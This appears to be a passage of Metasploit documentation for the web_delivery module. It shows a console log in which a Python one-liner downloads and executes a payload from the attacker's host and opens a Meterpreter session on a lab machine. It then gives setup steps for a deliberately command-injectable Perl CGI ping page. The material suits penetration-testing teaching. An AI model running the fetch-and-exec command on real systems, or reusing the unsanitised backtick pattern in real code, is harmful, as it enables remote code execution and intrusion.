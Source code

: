 ```
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
msf exploit(web_delivery) > sessions -i 1
[*] Starting interaction with 1...

python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
[*] 192.168.2.156    web_delivery - Delivering Payload
[*] Sending stage (38500 bytes) to 192.168.2.156
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.156:35840) at 2017-03-05 19:59:44 -0500

^Z
Background session 1? [y/N]  y

msf exploit(web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : Ubuntu14
OS           : Linux 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

## Vulnerable Pages

### Perl cgi

These instructions will create a cgi environment and a vulnerable perl application for exploitation. We used Kali rolling (2016.2) for this tutorial.

#### Setup

In this example, we make a `post` form that pings a user provided IP, which is a typical function on many routers and is often abused a similar manner.

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/cgi-bin/example.pl`:

    ```
    #!/usr/bin/perl
    use CGI qw(:standard);
    $query = new CGI;
    print $query->header( -type=> "text/html"),
      $query->start_html();
    $query->import_names( 'Q' );
    if ( $Q::ip ) {
      print `ping -c 1 $Q::ip`, "<hr>";
    }
    print $query->start_form( -name=>"ping", -method=>"POST", -enctype=>&CGI::URL_ENCODED),
      $query->p("Enter IP to ping:"),
      $query->textfield(-name=>"ip"), #, -id=>"ip"),
      $query->submit(-name=>"submit"),
      $query->end_form(),
      $query->end_html();
    ```
